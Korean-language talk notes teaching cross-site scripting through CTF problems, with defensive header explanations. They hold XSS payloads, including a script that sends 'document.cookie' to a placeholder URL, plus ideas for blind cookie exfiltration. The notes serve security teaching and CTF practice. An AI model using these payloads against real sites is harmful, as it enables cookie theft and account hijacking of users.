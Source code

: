 # 문제풀이로 배우는 XSS
박광호 발표자님
http://blog.debu.kr/

## XSS?
html, js 조작으로 서버 -> 클라이언트로 전달시키고 사용자 정보 등 탈취할 때 사용<br>

## XSS(Cross Site Scripting)
해커가 서버에서 js 등을 실행하도록 하여 쿠키 등을 훔쳐오는 공격 또는 사용자방해

## 일반적인 XSS 증명 1
```js
<script>alert(1);</script>
```
1이라는 값이 출력된 것을 확인할 수 있음
### alert란 무엇인가?
메시지박스를 보여줌

## 일반적인 XSS 증명 2
쿠키추출
```js
<script>location.href=URL+document.cookie;</script>
```
### location.href란 무엇인가?
location의 하이퍼링크를 url로 설정
### 쿠키 추출 방법
휴대폰번호, 로그인 정보 탈취

## 실습

### 방법 1 (개발자도구)

### 방법 2 (빈 페이지)

### 방법 3 (실습 페이지)
```
'><script>alert(1);</script>
```
html injection

## 쿠키 추출 원리

## 블라인드 쿠키추출
- html 태그 이용
- 통신 가능한 헤더 이용
- 다른 창의적인 아이디어

## XSS 방어 헤더
```js
Set-Cookie
Content-Security-Policy
```

### X-XSS-Protection
값이 `0` : XSS가 먹히게 설정
값이 `1` : XSS가 먹히지 않게 설정 (`Reflecter`만)
값이 `1; mode=block` : XSS가 먹히지 않게 설정 (XSS 감지시 응답내용이 `#` 뿐임)

### Set-Cookie
`Expires` : 쿠키에 날짜제한
`Secure` : `https://` 일때만 설정가능
`HttpOnly` : js의 쿠키접근 방지(XSS로 인한 쿠키탈취 방어목적)

## Christmas CTF 2017의 Pictube 문제풀이

## 가젯 따기
```js
clear+[]
"function clear() { [Command Line API] }"
```

## XSS 워게임
https://knock.xss.moe/index

